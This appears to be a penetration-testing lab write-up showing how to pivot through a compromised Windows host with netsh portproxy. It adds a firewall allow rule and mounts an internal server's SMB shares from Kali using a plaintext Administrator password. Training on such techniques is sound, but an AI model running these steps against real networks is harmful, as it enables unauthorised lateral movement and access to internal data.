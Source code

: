 ```yaml
---
description: >-
  NETSH
title:  NETSH             # Add title here
date: 2022-11-13 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, NETSH]                     # Change Templates to Writeup
tags: [port redirection and tunneling, netsh]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


For this to work, the Windows system must have the _IP Helper_ service running and _IPv6_ support must be enabled for the interface we want to use. Fortunately, both are on and enabled by default on Windows operating systems.

We can check that the _IP Helper_ service is running from the Windows _Services_ program to confirm this:

![IP-Helper](/assets/img/Pasted image 20230503171836.png)

We can confirm _IPv6_ support in the network interface's settings:

![IPv6-Support](/assets/img/Pasted image 20230503171950.png)

We can use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445):

```powershell
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```

Using netstat, we can confirm that port 4455 is listening on the compromised Windows host:

```powershell
C:\Windows\system32> netstat -anp TCP | find "4455"                                              
TCP    10.11.0.22:4455        0.0.0.0:0              LISTENING 
```

By default, the Windows Firewall will disallow inbound connections on TCP port 4455, which will prevent us from interacting with our tunnel. Given that we are running with SYSTEM privileges, we can easily remedy this by adding a firewall rule to allow inbound connections on that port.

These netsh options are self-explanatory, but note that we allow (action=allow) specific inbound (dir=in) connections and leverage the firewall (advfirewall) context of netsh.

```powershell
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
Ok.
```

As a final step, we can try to connect to our compromised Windows machine on port 4455 using smbclient. If everything has gone according to plan, the traffic should be redirected and the available network shares on the internal Windows Server 2016 machine should be returned.

As with our earlier scenario, Samba needs to be configured with a minimum SMB version of SMBv2. This is superfluous but we will include the commands here for completeness:

```bash
kali@kali:~$ sudo nano /etc/samba/smb.conf 

kali@kali:~$ cat /etc/samba/smb.conf 
...
Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
;   write list = root, @lpadmin

min protocol = SMB2

kali@kali:~$ sudo /etc/init.d/smbd restart
[ ok ] Restarting smbd (via systemctl): smbd.service.

kali@kali:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.11.0.22 failed (Error NT_STATUS_IO_TIMEOUT)
Failed to connect with SMB1 -- no workgroup available
```

We successfully listed the shares, but smbclient generated an error. This timeout issue is generally caused by a port forwarding error, but let's test this and determine if we can interact with the shares.

```bash
kali@kali:~$ sudo mkdir /mnt/win10_share

kali@kali:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share

kali@kali:~$ ls -l /mnt/win10_share/
total 1
-rwxr-xr-x 1 root root 7 Apr 17  2019 data.txt

kali@kali:~$ cat /mnt/win10_share/data.txt
data 

```

As demonstrated by the above commands, this error prohibits us from listing workgroups but it does not impact our ability to mount the share. The port forwarding was successful.